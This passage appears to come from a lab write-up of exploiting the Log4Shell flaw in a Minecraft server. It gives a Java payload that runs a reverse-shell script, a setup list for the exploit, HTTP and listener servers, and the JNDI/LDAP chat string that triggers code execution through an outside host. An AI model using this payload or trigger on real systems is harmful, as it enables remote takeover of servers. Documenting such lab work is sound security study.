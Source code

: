 Second payload:

```java
public class Log4jRCE {

    static {
        
        try {
            java.lang.Runtime.getRuntime().exec("bash rev.sh").waitFor();
        } catch (Exception e) {
            e.printStackTrace();
        }
    }

    public Log4jRCE(){
        System.out.println("I am Log4jRCE from remote222!!!");
    }
}
```

Before triggering the payload a small setup was needed.

1. Run the java compile and exploit serve script.
2. Run the reverse shell http serve script.
3. Run the reverse shell listener
4. Run the Log4JRCE redirection script - used to redirect LDAP requests to exploit serve script to transfer and execute the payload on target machine.

After everything was setup, the following script was ran in the MC client to send the chat message

```bash
/send ${jndi:ldap://10.85.26.3:1389/Log4jRCE}
```

You will notice that the LDAP server is spammed, not sure what caused this, but had to kill the redirector just to not DoS the minecraft server.

![Send jndi message and LDAP server](../../images/ldap-redirect-server.png){: .image-process-crisp}

![HTTP servers and reverse shell listener](../../images/http-servers-running-with-listener.png){: .image-process-crisp}

And after running the second payload, we are in!

![Inside the minecraft server system](../../images/log4j-we-in.png){: .image-process-crisp}
